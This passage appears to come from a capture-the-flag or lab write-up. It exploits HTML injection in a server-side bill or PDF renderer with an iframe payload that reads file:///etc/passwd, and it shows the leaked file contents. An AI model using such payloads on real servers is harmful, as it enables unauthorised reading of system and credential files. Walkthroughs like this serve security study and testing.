 ![](assets/web_altered_order_passwd.png)

The exploit is working, we can get information on the server, but we can't have all the file. We can try to have a wider frame to get it all:

```shell
Payload='<iframe src=file:///etc/passwd height=1200px width=600px></iframe>'
```

With this payload, the bill is on 2 pages, but we can have the whole file :

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System
(admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network
Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd
```